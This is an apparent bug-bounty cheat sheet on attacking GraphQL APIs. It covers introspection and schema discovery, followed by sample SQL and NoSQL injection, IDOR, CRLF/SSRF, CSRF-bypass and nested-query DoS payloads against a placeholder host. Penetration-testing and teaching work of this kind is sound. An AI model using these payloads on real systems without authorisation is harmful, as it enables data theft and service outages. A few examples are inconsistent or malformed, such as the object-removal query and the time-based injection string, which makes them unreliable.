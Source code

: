 ### Methodology for Attacking GraphQL [0xAwali](https://x.com/0xAwali)

1. **Setup and Tools**
   - **Install InQL in Burp Suite**
     - Download InQL from the [GitHub repository](https://github.com/doyensec/inql).
     - Load `inql.py` as a Python extension inside Burp Suite.
     - Switch to the InQL Scan Tab and enter your target (e.g., `https://www.company.com/graphql`).

2. **Introspection Query**
   - Try to find the introspection query to get all objects, which helps in exposing sensitive information:
     ```plaintext
     GET /graphql?query={__schema{types{name,fields{name}}}} HTTP/1.1
     Host: company.com
     User-Agent: Mozilla/5.0
     Referer: https://previous.com/path
     Origin: https://www.company.com
     ```

3. **Schema Visualization**
   - Use tools like [graphql-visualizer](http://nathanrandal.com/graphql-visualizer/) to view model relationships after obtaining the introspection query.
   - Steps:
     1. Copy the introspection query.
     2. Paste it into the introspection query field in the visualizer.

4. **Query Generation**
   - Use tools like [gql-generator](https://www.npmjs.com/package/gqlg) to generate a list of pasteable query strings:
     ```plaintext
     gqlg --schemaFilePath file.graphql --destDirPath output
     ```

5. **Verbose Results**
   - Append `?debug=1` to the URL of GraphQL to get more verbose results:
     ```plaintext
     POST /graphql?debug=1 HTTP/1.1
     Host: company.com
     Content-Length: Number

     query {
       user(name: "me ") {
         edges {
           node {
             phone
           }
         }
       }
     }
     ```

6. **Object Removal**
   - Attempt to remove objects to expose sensitive information:
     ```plaintext
     POST /graphql HTTP/1.1
     Host: company.com
     Content-Length: Number

     query {
       user(name: "me") {
         edges {
           node {
             phone
           }
         }
       }
     }
     ```

7. **SQL Injection**
   - **Basic SQL Injection**
     - Inject single quotes (`'`) or boolean-based payloads in all arguments:
       ```plaintext
       query {
         user(name: "me ' OR 1=1") {
           edges {
             node {
               phone
             }
           }
         }
       }
       ```
   - **Time-Based SQL Injection**
     - Inject payloads like `SELECT pg_sleep(30)`:
       ```plaintext
       query {
         user(name: "me ' SELECT pg_sleep(30);-- ") {
           edges {
             node {
               phone
             }
           }
         }
       }
       ```

8. **NoSQL Injection**
   - Inject NoSQLi payloads (e.g., `$gte`) in all arguments:
     ```plaintext
     query {
       user(name: "{\"me\":{\"$gte\":\"\"}}") {
         edges {
           node {
             phone
           }
         }
       }
     }
     ```

9. **IDOR (Insecure Direct Object References)**
   - Check for IDOR vulnerabilities:
     ```plaintext
     query {
       user(id: "ID-Of-Another-User") {
         edges {
           node {
             phone
           }
         }
       }
     }
     ```

10. **SSRF and CRLF Injection**
    - Inject Carriage Return Line Feed (`%0A%01%09`) with headers (e.g., `Host`, `X-Forwarded-Host`):
      ```plaintext
      query {
        user(name: "me%0A%01%09Host:%20me.com") {
          edges {
            node {
              phone
            }
          }
        }
      }
      ```

11. **Parameter Enumeration**
    - Append parameters to queries to expose sensitive information:
      ```plaintext
      query {
        user(name: "me") {
          edges {
            node {
              phone
              key
            }
          }
        }
      }
      ```

12. **CSRF (Cross-Site Request Forgery)**
    - Check for CSRF vulnerabilities:
      ```plaintext
      POST /graphql HTTP/1.1
      Host: company.com
      CSRF-Token: *********
      Content-Length: Number

      query {
        user(name: "me") {
          edges {
            node {
              phone
            }
          }
        }
      }
      ```

    - Try to bypass CSRF token validation by using GET queries:
      ```plaintext
      GET /graphql?query={user(name: "me"){node{phone}}} HTTP/1.1
      Host: company.com
      User-Agent: Mozilla/5.0
      Referer: https://previous.com/path
      Origin: https://www.company.com
      ```

13. **DoS Attack**
    - Inject repeated nodes in your body to perform a DoS attack:
      ```plaintext
      query {
        user {
          edges {
            user {
              ...
            }
          }
        }
      }
      ```

### References
- [GraphQL Abuse by Detectify Labs](https://labs.detectify.com/2018/03/14/graphql-abuse/)
- [GraphQL Bug to Steal Anyone's Address](https://blog.usejournal.com/graphql-bug-to-steal-anyones-address-fc34f0374417)
- [GraphQL Introspection Leads to Sensitive Data Disclosure](https://medium.com/@pranaybafna/graphql-introspection-leads-to-sensitive-data-disclosure-65b385452d7f)
- [Common Vulnerabilities in GraphQL](https://the-bilal-rizwan.medium.com/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
